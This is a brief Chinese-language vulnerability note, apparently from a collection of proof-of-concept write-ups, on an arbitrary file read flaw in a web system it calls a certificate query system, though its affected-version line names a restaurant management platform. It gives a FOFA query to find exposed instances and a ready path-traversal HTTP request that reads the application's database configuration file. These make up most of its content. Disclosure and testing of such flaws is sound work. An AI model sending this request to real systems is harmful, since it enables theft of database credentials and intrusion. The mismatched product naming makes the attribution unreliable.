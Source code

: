 # 证书查询系统存在任意文件读取漏洞

# 一、漏洞简介
证书查询系统存在任意文件读取漏洞

# 二、影响版本
+ 餐厅数字化综合管理平台

# 三、资产测绘
+ fofa`"/index/js/jquery.uls.data.js'"`

![1722352904056-06c70fd3-31e8-4d32-8012-4ad428356e37.png](./img/RJ349Ot7eGo3wrZl/1722352904056-06c70fd3-31e8-4d32-8012-4ad428356e37-929281.png)

# 四、漏洞复现
```java
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

![1722352933489-540436b5-cdf7-4ec0-8c66-5b946f3fe4c7.png](./img/RJ349Ot7eGo3wrZl/1722352933489-540436b5-cdf7-4ec0-8c66-5b946f3fe4c7-454699.png)



> 更新: 2024-08-12 17:15:58  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kw3y9u4xck897gu2>